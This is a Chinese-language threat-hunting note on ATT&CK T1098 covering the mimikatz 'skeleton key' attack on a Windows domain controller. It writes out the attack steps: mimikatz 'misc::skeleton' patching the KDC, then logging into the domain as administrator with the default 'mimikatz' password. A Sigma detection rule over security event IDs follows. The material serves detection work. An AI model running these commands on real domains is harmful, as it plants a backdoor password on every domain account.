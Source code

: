 # T1098-win-万能密码

## 来自ATT&CK的描述

帐户操作可以帮助攻击者维持在目标组织环境中对凭据或某些权限级别的访问权限。账户操作可能包括修改权限，修改凭据，添加或更改权限组，修改帐户设置或修改执行身份验证等方式。为了创建或操纵帐户，攻击者必须已经对系统或域具有足够的权限。

## 测试案例

使用万能密码（skeleton key），可以对域内权限进行持久化操作。

## 检测日志

windows 安全日志

## 测试复现

### 步骤1（PC上执行，普通域用户权限）

```dos
C:\Users\xiaomi>dir \\dc.xiaomi.org\c$  
拒绝访问。

C:\Users\xiaomi>net use \\dc.xiaomi.org\ipc$ "admin.098" /user:xiaomi\administra
tor
命令成功完成。

C:\Users\xiaomi>dir \\dc.xiaomi.org\c$
 驱动器 \\dc.xiaomi.org\c$ 中的卷没有标签。
 卷的序列号是 50E9-7D0C

 \\dc.xiaomi.org\c$ 的目录

2009/07/14  11:20    <DIR>          PerfLogs
2020/03/23  15:24    <DIR>          Program Files
2020/03/23  15:24    <DIR>          Program Files (x86)
2020/03/23  14:47    <DIR>          Users
2020/03/23  15:30    <DIR>          Windows
               0 个文件              0 字节
               5 个目录 32,728,838,144 可用字节

C:\Users\xiaomi>net use
会记录新的网络连接。


状态       本地        远程                      网络

-------------------------------------------------------------------------------
OK                     \\dc.xiaomi.org\ipc$      Microsoft Windows Network
命令成功完成。


C:\Users\xiaomi>net use \\dc.xiaomi.org\ipc$ /del /y
\\dc.xiaomi.org\ipc$ 已经删除。


C:\Users\xiaomi>net use
会记录新的网络连接。

列表是空的。
```

### 步骤2（DC上执行，管理员权限）

```dos
C:\Users\Administrator\Desktop\mimikatz_trunk\x64>mimikatz.exe "privilege::debug
" "misc::skeleton" exit

  .#####.   mimikatz 2.1.1 (x64) built on Apr  9 2017 23:24:20
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 21 modules * * */

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # misc::skeleton
[KDC] data
[KDC] struct
[KDC] keys patch OK
[RC4] functions
[RC4] init patch OK
[RC4] decrypt patch OK

mimikatz(commandline) # exit
Bye!
```

**系统提示Skeleton Key已经注入成功。此时，会在域内的所有账户中添加一个Skeleton key，其密码默认为“mimikatz”。接下来可以以域内任何用户的身份，配合该Skeleton Key，进行域内身份授权验证了。**

### 步骤3（PC上执行，普通域用户权限）

```dos
C:\Users\xiaomi>net use \\dc.xiaomi.org\ipc$ "mimikatz" /user:xiaomi\administrat
or
命令成功完成。


C:\Users\xiaomi>dir \\dc.xiaomi.org\c$
 驱动器 \\dc.xiaomi.org\c$ 中的卷没有标签。
 卷的序列号是 50E9-7D0C

 \\dc.xiaomi.org\c$ 的目录

2009/07/14  11:20    <DIR>          PerfLogs
2020/03/23  15:24    <DIR>          Program Files
2020/03/23  15:24    <DIR>          Program Files (x86)
2020/03/23  14:47    <DIR>          Users
2020/03/23  15:30    <DIR>          Windows
               0 个文件              0 字节
               5 个目录 32,758,198,272 可用字节

```

## 测试留痕

windows安全事件ID，多事件关联分析

## 检测规则/思路

### Sigma规则

```yml
title: Windows 万能密码
description: Windows server 2008 R2\win 7
references: https://0xsp.com/ad-attack-or-defense/ad-ttps-list
tags: T1098
status: 测试阶段
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection1:
        EventID: 4673  #调用权限的服务
    selection2:
        EventID: 4611  #受信任的登录进程已在本地安全机构注册
    selection3:
        EventID: 4688  #新进程创建
    selection4:
        EventID: 4689  #退出进程
    condition: all of them
    timeframe: last 5s
level: medium
```

### 建议

以上规则存在一定程度的不稳定性，谨慎使用！

## 相关TIP

[[Threathunting-book/8-凭证获取/T1098-win-账户操作]]

## 参考推荐

MITRE-ATT&CK-T1098

<https://attack.mitre.org/techniques/T1098/>
